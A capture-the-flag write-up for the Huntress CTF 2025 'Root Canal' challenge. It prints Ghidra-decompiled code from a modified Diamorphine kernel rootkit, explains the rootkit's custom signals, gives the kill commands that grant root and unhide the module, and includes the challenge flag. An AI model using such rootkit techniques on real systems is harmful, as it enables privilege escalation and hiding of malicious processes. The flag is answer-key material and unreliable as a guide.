


# Huntress CTF 2025 - 📦 Root Canal  

**CTF Name:** Huntress CTF 2025  
**Challenge name:** 📦 Root Canal  
**Challenge prompt:**  
> But what is the real root of the issue?
> If you are using the VPN, you can SSH in to this challenge with:

```
Username: ctf
Password: HuntressCTF2025
```

**Challenge category:** Miscellaneous  
**Challenge points:** 10

* * *  

## Steps to solve  

I used SSH to log into the machine with the provided credentials, my first step was to perform initial reconnaissance. A README.txt file in the home directory immediately stood out:



The repeated hints about "root" strongly suggested that a rootkit was involved. Thinking it could be a kernel module, I ran `lsmod`, but the list appeared clean.

I performed standard enumeration including manual inspection of the key directories. An `ls -la` in the `/opt` directory revealed a `.diamorphine` directory:


A quick web search for Diamorphine confirmed it is a well-known LKM (Loadable Kernel Module) rootkit. Among the files in the directory, `diamorphine.ko` was the most important. The `.ko` extension stands for "Kernel Object", which is the compiled, loadable module that contains the executable code. The other files were likely source code (.c), intermediate build files (.o, .mod) and metadata.

When I attempted to use the default signals documented in the public repository, nothing happened. This led me to suspect that the version on this machine had been modified. To investigate, I transferred the `diamorphine.ko` file to my local machine and opened it in Ghidra. Analysis revealed a `hacked_kill` function, which hooks the kernel's kill handler. The decompiled code clearly laid out the custom logic:

```c
undefined8 hacked_kill(long param_1)

{
  long lVar1;
  long *plVar2;
  int iVar3;
  undefined8 uVar4;
  undefined *puVar5;
  
  plVar2 = module_previous;
  iVar3 = (int)*(undefined8 *)(param_1 + 0x68);
  if (iVar3 == 0xc) {
    give_root();
    return 0;
  }
  if (iVar3 != 0xd) {
    if (iVar3 != 0xb) {
      uVar4 = (*orig_kill)();
      return uVar4;
    }
    if (module_hidden == 0) {
      module_previous = _DAT_00100e10;
      *(long **)(_DAT_00100e08 + 8) = _DAT_00100e10;
      *_DAT_00100e10 = _DAT_00100e08;
      _DAT_00100e08 = 0xdead000000000100;
      _DAT_00100e10 = (long *)0xdead000000000122;
      module_hidden = 1;
      return 0;
    }
    _DAT_00100e08 = *module_previous;
    *(undefined **)(_DAT_00100e08 + 8) = &DAT_00100e08;
    _DAT_00100e10 = plVar2;
    *plVar2 = (long)&DAT_00100e08;
    module_hidden = 0;
    return 0;
  }
  puVar5 = &init_task;
  do {
    lVar1 = *(long *)(puVar5 + 0x7c8);
    puVar5 = (undefined *)(lVar1 + -0x7c8);
    if (puVar5 == &init_task) {
      return 0xfffffffd;
    }
  } while (*(int *)(param_1 + 0x70) != *(int *)(lVar1 + 0x100));
  if (puVar5 == (undefined *)0x0) {
    return 0xfffffffd;
  }
  *(uint *)(lVar1 + -0x7a4) = *(uint *)(lVar1 + -0x7a4) ^ 0x10000000;
  return 0;
}
```

This code confirmed that the default signals were replaced with new ones:

- Signal 12 (hex 0xc): Calls `give_root()` to grant root privileges
- Signal 11 (hex 0xb): Toggles the visibility of the kernel module, hiding or unhiding it from `lsmod`
- Signal 13 (hex 0xd): Toggles the visibility of a specified process

With this new understanding, the path forward was clear. First, I escalated my privileges by sending signal 12 to an arbitrary process ID (0):

```bash
kill -s 12 0
```

After gaining root, I confirmed the module had hidden itself from `lsmod`. Following the logic of the README, I needed to remove the rootkit to reveal the flag. To do this, I first had to unhide it by sending signal 11:

```bash
kill -s 11 0
```

With the module now visible, I could remove it completely using `rmmod`:

```bash
rmmod diamorphine
```

As expected, after removing the rootkit, a new directory named squiblydoo/ appeared in the /home/ctf directory. I retrieved the flag from the flag.txt file inside:



**FLAG:** flag{ce56efc41f0c7b45a7e32ec7117cf8b9} 
